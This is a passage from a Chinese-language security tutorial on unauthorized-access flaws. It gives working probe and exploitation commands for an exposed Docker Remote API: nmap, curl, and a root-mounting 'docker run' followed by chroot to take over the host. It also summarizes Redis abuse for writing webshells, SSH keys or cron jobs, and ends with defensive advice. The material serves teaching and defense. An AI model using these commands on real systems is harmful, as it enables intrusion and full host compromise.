

### 漏洞探测与利用



**探测命令**：
使用`nmap`扫描2375端口，或直接访问API端点。
```bash
nmap -sT -T4 -p 2375 10.1.1.201
# 或
curl http://10.1.1.201:2375/version
```
如果返回了Docker的版本信息JSON，则证明存在未授权访问。


**利用方式**：
攻击者可以通过API创建并运行一个容器，并将宿主机的敏感目录（如`/`根目录）挂载到容器内部，从而在容器内直接读写宿主机文件，实现逃逸。

**利用步骤示例**：
1.  **查看已有镜像**：`curl http://10.1.1.201:2375/images/json`
2.  **创建并运行一个特权容器**，将宿主机根目录挂载到容器的`/host`路径：
    ```bash
    # 这是一个通过Docker API发送的HTTP请求示例，实际可使用docker客户端或脚本
    # 原理是使用`-v /:/host`参数挂载根目录，并让容器执行`chroot /host`切换到宿主机文件系统
    ```
    更简单的做法是直接使用`docker`客户端（如果已安装）连接远程目标：
    ```bash
    export DOCKER_HOST=“tcp://10.1.1.201:2375”
    docker run -it -v /:/host ubuntu /bin/bash
    ```
    执行以上命令后，你将会进入一个Ubuntu容器，在容器内执行`chroot /host`，即可获得一个相当于在宿主机上执行的Shell环境，从而完全控制宿主机。

## 总结与防御建议 🔒

本节课中我们一起学习了未授权访问漏洞，并以Redis和Docker为例进行了深入剖析。

**核心要点总结**：
1.  **未授权访问**本质是权限绕过，因配置疏忽或开发缺陷导致。
2.  **Redis未授权**：利用`config set`和`save`命令，可写入WebShell、SSH公钥或定时任务，进而获取系统权限。
3.  **Docker未授权**：通过暴露的Docker Remote API，可创建特权容器并挂载宿主机目录，实现容器逃逸和宿主机控制。

**防御建议**：
*   **最小化暴露**：非必要不将服务（Redis, Docker等）绑定到公网IP（0.0.0.0）。如需远程访问，使用SSH隧道等安全方式。
*   **强制认证**：为Redis设置强密码（`requirepass`配置项）。为Docker Remote API配置TLS客户端证书认证。
*   **网络隔离**：使用防火墙（iptables, firewalld）或安全组策略，限制服务端口的访问来源IP，仅允许可信地址访问。
*   **权限最小化**：运行服务时使用低权限用户，避免使用root。这样即使被入侵，攻击者获得的权限也有限。
*   **定期更新与审计**：保持服务版本更新，定期进行安全配置检查和漏洞扫描。



希望本教程能帮助你理解未授权访问漏洞的原理与危害，并在实践中建立牢固的安全防护意识。